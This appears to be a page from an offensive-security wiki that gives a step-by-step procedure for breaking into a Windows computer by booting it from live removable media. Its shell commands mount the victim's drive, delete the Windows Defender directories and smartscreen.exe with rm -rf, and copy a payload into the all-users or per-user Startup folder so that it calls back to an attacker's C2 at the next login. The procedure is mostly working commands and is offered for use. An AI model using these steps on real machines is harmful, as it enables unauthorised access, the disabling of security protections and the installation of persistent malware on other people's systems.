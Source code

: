 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - exploitation
  - physical-pentesting
  - defense-evasion
  - maintaining-access
  - persistence
  - windows
  - linux
credits:
  - tokyoneon
---
```

# Live Removable Media

## 01 - Access The Boot Manager

When the system is booting it may prompt a specific keystroke to press by accessing the boot manager. If not depending on the vendor's motherboard, do a quick search of which keystroke to access the boot manager.

## 02 - Mount NTFS Drive

```
# fdisk -l

# mount -t ntfs /dev/sdX[n] /mnt/
```

## 03 - Disable Security Defenses (Optional)

### 3.1 - Windows Security

```
# find /mnt/ -type d -iname *Windows\ Defender*
```

Delete security endpoints.

```
# find /mnt/ -type d -iname *Windows\ Defender* -exec rm -rf {} \;
```

### 3.2 - Smartscreen

Delete `smartscreen.exe`.

```
# find /mnt/ -iname smartscreen.exe -exec rm -rf {} \;
```

### 3.3 - Third Party Endpoints

Refer to the **Wiki Backlinks** to bypass third party endpoints.

## 04 - Copy Payload to Startup

### 4.1 - All Users

```
# cp payload.exe "/mnt/<windows_volume_name>/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp/"
```

### 4.2 - Specific User

Enumerate the available users.

```
# ls /mnt
```

Then copy the payload to startup directory.

```
# cp payload.exe "/mnt/<windows_volume_name>/Users/<username>/AppData/Roaming/Microsoft/Windows/Start Menu/Programs/Startup/"
```

## 05 - Unmount the NTFS Drive

After you've dropped the payload in the target's machine. Wait for the target to login to their machine to receive an established connection to your C2.

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Active Directory/0xA - Internal Reconnaissance/Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xA - Internal Reconnaissance/Users/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Endpoints/Microsoft/Endpoints/Manual/Living off the Land]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/05 - Security Endpoints/Windows/Endpoints/Third Party/Living off the Land]]

### Null Byte

- [Null Byte: Hacking Windows 10 - How to Break into Somebody's Computer Without a Password (Exploiting the System)](https://null-byte.wonderhowto.com/how-to/hacking-windows-10-break-into-somebodys-computer-without-password-exploiting-system-0183743)